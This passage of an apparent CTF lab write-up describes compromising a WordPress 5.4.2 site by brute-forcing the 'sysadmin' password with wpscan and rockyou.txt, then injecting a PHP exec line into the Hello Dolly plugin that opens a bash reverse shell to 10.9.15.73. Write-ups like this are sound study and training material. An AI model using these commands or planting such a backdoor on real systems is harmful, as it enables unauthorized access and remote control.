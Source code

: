 
* On the **wp-login.php** page there is the cassic WordPress login form to access the site dashboard.
* On the **feed** page I was able to download an xml file with informations about the platform including the wordpress version used.

```xml
<language>en-US</language>
<sy:updatePeriod> hourly </sy:updatePeriod>
<sy:updateFrequency> 1 </sy:updateFrequency>
<generator>https://wordpress.org/?v=5.4.2</generator>
<item>
```

* Nmap also found a (probable) username used in the system, **sysadmin**. Most likely I can use it to access the dashboard via the login panel.


While searching the internet for known vulnerabilities for this version of WordPress, I launched a brute-force with [wpscan](https://wpscan.com/) tool attack using the username I found and a dictionary of passwords.

```
$ wpscan --url http://10.10.103.161/ -U sysadmin -P /usr/share/wordlists/rockyou.txt

[...]

[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - sysadmin / milkshake                                                                                                                                                                                                            
Trying sysadmin / kenzie Time: 00:02:07 <                                                                                                                                                          > (1665 / 14346057)  0.01%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: sysadmin, Password: milkshake
```

When I realized that wpscan had found the password I logged in to the site and had access to the dashboard. Since I have an admin account I can change themes and install new plugins, so I checked which plugins were installed and I modified one of them, in my case I choosed HelloDolly.

I have inserted the following line of code into the plugin's source code.
```php
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.9.15.73/1235 0>&1'");
```

<div><p align="center"><img src="img/plugin.png"></div>
This PHP code executes a Bash shell command that tries to create a reverse shell connection to the IP address 10.9.15.73 on port 1235.
